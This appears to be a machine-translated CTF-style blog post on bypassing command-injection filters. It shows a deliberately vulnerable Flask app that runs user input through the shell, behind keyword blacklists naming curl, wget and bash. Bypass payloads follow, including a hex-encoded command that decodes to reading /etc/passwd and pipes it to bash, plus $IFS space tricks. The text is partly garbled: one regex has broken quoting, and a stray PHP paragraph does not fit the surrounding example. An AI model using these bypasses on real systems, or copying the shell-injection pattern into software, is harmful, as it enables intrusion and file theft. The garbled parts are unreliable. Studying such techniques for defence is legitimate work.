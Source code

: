 ```python
from flask import Flask
from flask import render_template,request
import subprocess,re
app = Flask(__name__)

@app.route('/',methods=['GET'])
def index():
    return render_template('index.html')

@app.route('/run',methods=['POST'])
def run():
    cmd = request.form.get("cmd")
    if re.search(r''[^0-9a-zA-Z">\\\$();]''',cmd):
        return 'Hacker!'
    if re.search(r'''ping|wget|curl|bash|perl|python|php|kill|ps''',cmd):
        return 'Hacker!'
    p = subprocess.Popen(cmd,stderr=subprocess.STDOUT, stdout=subprocess.PIPE,shell=True,close_fds=True)
    try:
        (msg, errs) = p.communicate(timeout=5)
        return msg
    except Exception as e:
        return 'Error!'

app.run(host='0.0.0.0',port='5000')
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210528085106453.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

## Hexadecimal Bypass

`echo "636174202F6574632F706173737764" | xxd -r -p |bash`

![Insert the picture description here](https://img-blog.csdnimg.cn/2021052815065447.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

## Hexadecimal character sequence
It is worth noting that this method is not applicable to all PHP functions. This variable function method cannot be used to construct system special functions such as echo, print, unset(), isset(), empty(), include, require, etc., but they can be constructed using wrapper functions.

![Insert the picture description here](https://img-blog.csdnimg.cn/20210528150438166.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

## Space Filter

linux built-in separators: \${IFS}, \$IFS, \$IFS$9

![Insert the picture description here](https://img-blog.csdnimg.cn/20210528094008120.png#pic_center)
Use redirector `<>`

![Insert the picture description here](https://img-blog.csdnimg.cn/20210528094206846.png#pic_center)
